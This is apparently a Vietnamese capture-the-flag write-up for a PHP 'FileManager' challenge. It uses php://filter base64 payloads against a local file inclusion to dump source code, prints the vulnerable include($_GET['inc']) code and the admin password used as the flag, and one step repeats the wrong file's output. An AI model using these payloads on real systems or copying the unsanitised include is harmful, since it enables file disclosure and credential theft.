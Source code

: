 # PHP - Filters

**25 Points - Medium**

**Title:**

FileManager v 0.01

**Statement**

Retrieve the administrator password of this application.

## Analysis:

Challenge này phải được solve trước cái `Local File Inclusion - Double encoding`. Như tiêu đề `Filters`, chúng ta sẽ sử dụng wrapper `filter` để giải. 

> Nhắc lại tí: Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Wrappers là một code bổ sung cho một stream để xử lý các giao thức / mã hóa cụ thể. Ví dụ: wrappers http biết cách dịch một URL thành một HTTP request cho một file trên máy chủ từ xa. Khi làm việc với wrapper vì luồng stream được xử lý và được read ra nên ouput sẽ là nội dung của một file nào đó (do mình tùy chọn). Tham khảo [thêm](https://www.php.net/manual/en/intro.stream.php#:~:text=Introduction%20%C2%B6&text=A%20wrapper%20is%20additional%20code,file%20on%20a%20remote%20server.)

Cứ phân tích từ từ đã, thử truy cập vào thư mục parent. Set giá trị `..`:

![image](images/content.png)

Lỗi không cho truy cập vào thư mục nằm ngoài thư mục gốc của ứng dụng `/challenge/web-serveur/ch12`. Nhưng ta biết ở đây có file `ch12.php`.

Thử load mã nguồn từ trang khác dùng RFI như `https://github.com/` nhưng mà server đã chặn:

<p align="center"><img src="images/content1.png"></p>

`Warning: include(): https:// wrapper is disabled in the server configuration by allow_url_include=0 in /challenge/web-serveur/ch12/ch12.php on line 26`. Bên server đã cấu hình loại bỏ (disabled) wrapper liên kết ra external site rồi, nên không thể tìm thấy wrapper này.

Ta chỉ còn cách follow theo bài dùng *wrapper filter* để solve. Đưa toàn bộ nội dung file vào stream và qua bộ lọc base64-encode để hiển thị code ra màn hình. 

> NOTE: Tham khảo toàn bộ filter [tại đây](https://www.php.net/manual/en/filters.php)

## Solution:

Sử dụng payload `php://filter/convert.base64-encode/resource=<filename>` với các file đã biết trước:

- `accueil.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=accueil.php`

<p align="center"><img src="images/content2.png"></p>

Output là source code được encode với **base64**. Dùng command (Linux) :

```bash
echo "<encoded-base64-string>" | base64 -d"
```

Ta có source của file `accueil.php`:

```
<h3>Welcome !</h3>
<p>Please login to view the files.</p> 
```

- `ch12.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=ch12.php`

<p align="center"><img src="images/content2.png"></p>

Output là source code được encode với **base64**. Dùng command (Linux) :

```bash
echo "<encoded-base64-string>" | base64 -d"
```

Ta có source của file `accueil.php`:

```php
<h3>Welcome !</h3>
<p>Please login to view the files.</p> 
```

Decode base64 tương tự, ta có codebase:

```php
<?php

$inc="accueil.php";
if (isset($_GET["inc"])) {
    $inc=$_GET['inc'];
    if (file_exists($inc)){
        $f=basename(realpath($inc));
        if ($f == "index.php" || $f == "ch12.php"){
            $inc="accueil.php";
        }
    }
}

include("config.php");


echo '
  <html>
  <body>
    <h1>FileManager v 0.01</h1>
    <ul>
        <li><a href="?inc=accueil.php">home</a></li>
        <li><a href="?inc=login.php">login</a></li>
    </ul>
';
include($inc);

echo '
  </body>
  </html>
';
?>
```  

Ở đây ta thấy có file `config.php` được **include()** vào, khả năng cao là flag. Thực hiện tương tự trên:

- `config.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=config.php`

Đọc source code file này ra:

```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```

> NOTE: Đọc file `login.php` cũng đi đến hướng đúng.

<p align="center"><img src="images/flag.png"></p>

Flag: **DAPt9D2mky0APAF**
